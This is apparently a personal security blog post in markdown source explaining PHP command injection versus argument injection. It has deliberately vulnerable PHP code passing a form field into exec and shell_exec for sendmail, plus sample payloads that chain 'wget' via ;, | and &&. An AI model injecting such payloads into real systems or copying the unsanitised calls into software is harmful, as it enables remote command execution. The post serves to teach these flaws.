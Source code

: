 ```yaml
---
layout: post
title:  "PHP Command Injection and Argument Injection"
categories: TheoricalPractise 
tags:  CommandI ArgumentI PHP
author: AlvaroFolgado
---
```


* content
{:toc}


## Introduction

This is the first post inside the category “TheoricalPractise”. In these series I will use information around internet to build a working Proof of Concept and test dangerous functions in different languages with the objective to understand basic Web Exploitation vectors.
In this chapter I have built a PoC in relation with Command Injection and Argument Injection, in PHP language.
Existent PoC can be acceded [here](http://afolgado.com/poc/)

## Command Injection VS Argument Injection

Since this is the first post where I speak about these two attack vectors let’s explain very simply how they work.
Command Injection is possible when we provide to any kind of command interpreter as sh/bash/cmd a String directly coming from a user Input without any kind of control. Vulnerable code example:

```php
popen("/usr/bin/touch ".$userInput,"r");
shell_exec("/usr/bin/touch ".$userInput);
passthru("/usr/bin/touch ".$userInput);
[...]
```

In this last functions, if the user has access to $userInput String, we could perform an attack of the style:

```bash
"ss@email.com;wget http://127.0.0.1/test"
"ss@email.com|wget http://127.0.0.1/test"
"ss@email.com&&wget http://127.0.0.1/test"
[...]
```


On the other hand, an Argument Injection is different; in this time this is produced when we pass arguments to a process call, and these arguments are created using Strings from an uncontrolled user Input Source.
 
```php
$escapedUserInput = escapeshellcmd($userInput);

popen("/usr/bin/touch ".$userInput,"r");
shell_exec("/usr/bin/touch ".$userInput);
passthru("/usr/bin/touch ".$userInput);
[...]
```

In an argument Injection the ability of exploit the vulnerability depends in the behavior of the target process call, since we only can normally inject more parameters and arguments to the binary, knowledge about the target binary and the ability of exploit it, will be key if we want to execute code in target server. On the other hand, a command Injection is very easy to exploit normally in comparation.

A useful way to depurate Argument Injections when we know which binary is being called, is by changing target binary with following script:

```bash
#!/bin/bash
cat > /tmp/outgoing-command

echo Received: $0 >> /tmp/outgoing-command
echo Received: $1 >> /tmp/outgoing-command
echo Received: $2 >> /tmp/outgoing-command
echo Received: $3 >> /tmp/outgoing-command
echo Received: $4 >> /tmp/outgoing-command
echo Received: $5 >> /tmp/outgoing-command
echo Received: $6 >> /tmp/outgoing-command
echo Received: $7 >> /tmp/outgoing-command
echo Received: $8 >> /tmp/outgoing-command
echo Received: $9 >> /tmp/outgoing-command

#... whatever more args we should like to capture
```

This will help us to understand what is being passed from the web app side to the operating system process.
Also particularly in PHP, we can use “error_log(string,0)” to log information inside /var/log/apache/error.log. This help us for research objectives in the future.

## Proof of concept: Command Injection

With the objective to test this in practise I created a very simple PHP webapp to test this. The code simply call "sendmail" from the default Operating system (tested on ubuntu) concatenating a userInput String. This dangerous String is the "emailFrom" input.

```php
if (isset($_POST['emailFrom']) and isset($_POST['emailTo']) and isset($_POST['body']) and !strcmp($_POST['submit'],'Command Injection')){

	$emailTo = $_POST['emailTo'];

	$emailFrom = $_POST['emailFrom'];

	$body = $_POST['body'];


//Command injection vulnerability, pick up your method!
//CommandI are possible when we pass a user input String without any kind of control to a bash/sh/cmd. These softwares detect some symbols as ";|&." in a special way, so we can trick it to run more commands as the one is supposed to be executed.

//Payload1 used here!

//Popen call pipe to the target process, is totally Command Injectable
//popen("/usr/sbin/sendmail -f".$emailFrom,"r");

//Same as Popen!
//shell_exec("/usr/sbin/sendmail -f".$emailFrom);

//Same as Popen!
//passthru("/usr/sbin/sendmail -f".$emailFrom);

//Same as Popen!
exec("/usr/sbin/sendmail -f".$emailFrom);

[...]
```
By providing previous payloads into "emailFrom" to the form and clicking "Command Injection" we can run extra commands providing special shell characters.

Accessing to /var/log/apache2/access.log we can see that the "wget" command is being performed correctly.



## Proof of concept: Argument Injection

to-do

## Conclussions
As an **attacker** perspective, if we see data that could be passed as a string to a dangerous function like the following URL:
```js
http://example.com/action?ping=<IP-STRING>
```
We should try a bunch of command Injection Payloads for linux/windows based operating system and look if our external server has been reached.Argument Injection is much trickier, for that we will need to figure out vulnerable 3PP (third party library software) used by target web application.

As a **defensive** perspective, is the only way to solve any of our problems is by doing a OS call using dangerous function, better to correctly escape/depurate it before passing directly to these functions.
The Dangerous Funtions that I know so far will be listed [here](http://afolgado.com/hackinguide/)

## Documentation

[LegalHackers Mailer Exploit](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)

[OWASP](https://www.owasp.org/index.php/Main_Page)

